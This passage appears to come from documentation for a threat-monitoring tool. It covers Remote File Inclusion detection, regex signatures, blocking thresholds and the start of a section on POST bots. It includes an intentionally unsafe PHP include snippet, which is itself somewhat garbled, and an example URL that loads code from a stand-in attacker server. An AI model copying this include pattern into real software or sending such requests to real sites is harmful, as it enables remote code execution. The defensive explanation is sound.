 For example, let's say you have a PHP based web page that includes a header from a secure server in every page, the variable that stores the location of the header file is called 'header'. In your PHP code, you have the below:

```php
$header = $_GET['https://mysecureserver.com.files/header.php'];

include($header);

```

If not properly caught, an attacker could submit a request like this:

`https://yourwebsite.com/?header=http://attackersserver.com/malicouscode.php`

This would overwrite your header variable with their attackers, and the server would then include the attacker PHP code on your server and then run it.


**Signatures detected**

Triggered when the URL request contains any of the flowing patterns:

*Patterns are separated by a |*

Regex: ```?\S+=http://\d+.\d+.\d+.\d+/\S+ | ?\S+=https://\d+.\d+.\d+.\d+/\S+```


**Severity**

Although dangerous, Threat Monitoring will not immediately block an IP if an RFI attack is detected. This is to prevent more advanced, legitimate web queries from immediately being blocked. If an IP continues to submit RFI requests, the IP will be blocked, see the 'Remediations and blocking' section below

**Remediation and Blocking**

Threat Monitoring will block the IP if 10 or more RFI signatures are detected within 120 seconds. The IP will be blocked via IPTables and hosts.deny (Linux) or Windows Firewall for 30 minutes.

Additionally, If an RFI attack returns a code 200 (Web Request success), Threat Monitoring will check the source IP address against AbuseIPDB. If the IP is known for malicious activity within the last 14 days, the IP will be blocked via IPTables and hosts.deny (Linux) or Windows Firewall for 30 minutes.

To disable the ability to include remote files completely, you can set `allow_url_include` to `off` in your php.ini or .htaccess file

## POST Bots

**What is this attack**

The Internet is full of bots, both performing tasks that make the Internet run, and sometimes malicious tasks that can cause mayhem. POST requests are types of web requests that can be sent to a server via HTTP and HTTPS and are often used to send data to a web server or API.

**Severity**

POST request bots are not specifically dangerous, but detecting them can be a vital way to prevent an upcoming attack, stop a malicious vulnerability scan or stop some web scrapers from submitting a request to your site. See the below section for information on blocking this attack.
